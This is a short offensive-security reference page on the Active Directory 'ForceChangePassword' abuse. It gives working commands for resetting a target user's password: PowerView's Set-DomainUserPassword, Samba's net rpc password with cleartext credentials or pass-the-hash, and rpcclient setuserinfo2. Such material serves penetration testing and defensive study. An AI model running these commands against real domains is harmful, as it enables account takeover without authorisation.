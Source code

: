 # ForceChangePassword

This abuse can be carried out when controlling an object that has `AllExtendedRights`, or `GenericAll` over a target user.

The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../abusing-ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

